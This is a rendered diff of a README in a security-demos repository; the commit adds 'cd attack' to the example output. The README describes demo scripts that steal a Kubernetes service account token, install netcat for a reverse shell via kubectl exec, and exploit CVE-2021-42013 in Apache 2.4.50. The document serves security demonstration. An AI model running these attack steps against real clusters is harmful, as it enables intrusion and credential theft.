

Before and after one commit to fduthilleul/security-demos, a Markdown page: README.md, 3 parts joined by grey strips. GitHub-like rendering.

Commit message:
change the example output

````diff
--- a/README.md
+++ b/README.md
@@ -62,6 +62,7 @@ The scripts are designed to demo a few security use cases, meaning the target ar
 - **attack_001.sh** will use asset-cache as a steping stone to access the visa-processe service account token.
 
 ```
+Security Demo -> cd attack
 Security Demo -> ./attack_001.sh http://asset-cache-frontend.apps.cluster.local/
 ☺ - Target asset-cache-84bc5779ff-lsq2n Exploited
 ☺ - Next Phase: Lateral Movement ...
@@ -80,6 +81,7 @@ eyJhbGciOiJSUzI1NiIsImtpZCI6ImNsbXFWcGppX1BQX1NHd....
 - **attack_002.sh** will use the token extracted from the first attack and run kubectl exec to install netcat and run a reverse shell. Kube API needs to be accessible.
 
 ```
+Security Demo -> cd attack
 Security Demo -> ./attack_002.sh https://api.ocp.cluster.local:6443
 ☠ - Getting access to pod visa-processor-6d764fc488-qzjxl
 
@@ -106,6 +108,7 @@ netcat is already the newest version (1.10-41).
 - **attack_003.sh** - will use asset-cache as a stepping stone to to install netcat and run a reverse shell without the need to kubectl exec or token :D
 
 ```
+Security Demo -> cd attack
 Security Demo -> ./attack_003.sh http://asset-cache-frontend.apps.cluster.local/                                                              1
 PoC CVE-2021-42013 reverse shell Apache 2.4.50 with CGI
 Exploiting deployment...
````
